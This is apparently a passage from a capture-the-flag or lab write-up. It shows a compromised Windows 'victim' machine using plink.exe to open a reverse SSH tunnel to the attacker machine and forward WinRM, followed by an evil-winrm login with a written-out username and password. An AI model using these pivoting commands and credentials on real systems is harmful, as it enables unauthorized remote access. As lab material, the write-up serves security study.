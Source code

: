 > Note that we are connecting from the server (victim machine) to our machine (attacker machine). This is because our Linux machine comes pre-installed with SSH.
> 

On victim machine run 

```bash
c:\windows\temp\plink.exe [tun0 ip] -P 2222 -l [your linux username] -pw [your linux pw] -R 5985:127.0.0.1:5985
```

If it succeeded, you would get something like this

![image.png](image%2047.png)

And then run we run `evil-winrm` on attacker machine

```bash
evil-winrm -U 're\coby' -p 'championship2005' -i 127.0.0.1
```

